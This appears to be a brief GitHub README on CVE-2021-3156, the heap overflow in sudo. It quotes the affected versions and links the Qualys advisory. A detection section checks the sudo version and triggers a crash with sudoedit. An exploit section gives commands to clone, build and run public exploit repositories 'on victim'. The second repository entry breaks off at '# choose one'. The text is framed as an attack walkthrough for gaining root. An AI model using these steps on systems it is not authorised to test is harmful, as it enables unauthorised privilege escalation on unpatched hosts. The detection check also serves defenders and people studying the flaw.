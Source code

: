 # Overview

>This vulnerability:
>- is exploitable by any local user (normal users and system users,  sudoers and non-sudoers), without authentication (i.e., the attacker does not need to know the user's password);
>- was introduced in July 2011 (commit 8255ed69), and affects all legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1, in their default configuration. 
>Ubuntu 20.04 (Sudo 1.8.31), Debian 10 (Sudo 1.8.27), and Fedora 33 (Sudo 1.9.2). Other operating systems and distributions are probably also exploitable.

### Sources
https://www.youtube.com/watch?v=TLa2VqcGGEQ
[Whitepaper](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)
# Exploitation
## Detect
- Check the versions of the Distribution and sudo
```bash
$ cat /etc/issue
Ubuntu 20.04.5 LTS \n \l
$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31

$ sudoedit -s '123456789123456789\'
malloc(): invalid size (unsorted)
Aborted (core dumped)
```

## Exploit
### 1. https://github.com/CptGibbon/CVE-2021-3156
```bash
# install
git clone https://github.com/CptGibbon/CVE-2021-3156.git
cd CVE-2021-3156
make

# on victim
./exploit
```

### 2. https://github.com/worawit/CVE-2021-3156
```bash
# install
git clone https://github.com/worawit/CVE-2021-3156.git
cd CVE-2021-3156

# choose one
```
